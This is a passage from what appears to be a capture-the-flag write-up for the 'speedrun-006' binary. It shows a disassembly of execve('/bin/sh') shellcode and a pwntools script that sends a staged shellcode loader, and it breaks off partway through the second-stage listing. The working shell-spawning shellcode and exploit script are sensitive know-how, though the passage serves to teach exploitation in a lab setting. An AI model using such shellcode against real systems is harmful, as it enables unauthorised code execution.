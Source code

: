 shellcode:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080: b0 3b                 mov    al,0x3b
  400082: 48 8d 3d f8 ff ff ff  lea    rdi,[rip+0xfffffffffffffff8]        # 400081 <_start+0x1>
  400089: 48 b9 2f 62 69 6e 2f  movabs rcx,0x68732f6e69622f
  400090: 73 68 00 
  400093: 48 89 0f              mov    QWORD PTR [rdi],rcx
  400096: 48 31 f6              xor    rsi,rsi
  400099: 48 31 d2              xor    rdx,rdx
  40009c: 0f 05                 syscall 
```
```

Putting it all together, we get the following exploit:
```
from pwn import *

target = process('speedrun-006')
gdb.attach(target, gdbscript='pie b *0x9fe')
#gdb.attach(target, gdbscript='pie b *0xa97')

'''
shellcode to scan in additional shellcoe
0000000000400080 <_start>:
  400080:	b2 ff                	mov    dl,0xff
  400082:	48 8d 35 f8 ff ff ff 	lea    rsi,[rip+0xfffffffffffffff8]        # 400081 <_start+0x1>
  400089:	48 83 c6 43          	add    rsi,0x43
  40008d:	0f 05                	syscall 
  40008f:	ff e6                	jmp    rsi
'''

# mov    dl,0xff
scan = "\xb2\xff"

# nops
scan += "\x90\x90\x90\x90\x90\x90\x90"

# lea    rsi,[rip+0xfffffffffffffff8]
scan += "\x48\x8d\x35\xf8\xff\xff\xff"

# nops
scan += "\x90"*2

# add    rsi,0x43
scan += "\x48\x83\xc6\x43"

# syscall
scan += "\x0f\x05" 

# jmp rsi
scan += "\xff\xe6"

# send the shellcode, and pause to ensure input is scanned in correctly
target.send(scan)
raw_input()

'''
Secondary shellcode to pop a shell without push/pop
0000000000400080 <_start>:
  400080:	b0 3b                	mov    al,0x3b
  400082:	48 8d 3d f8 ff ff ff 	lea    rdi,[rip+0xfffffffffffffff8]        
```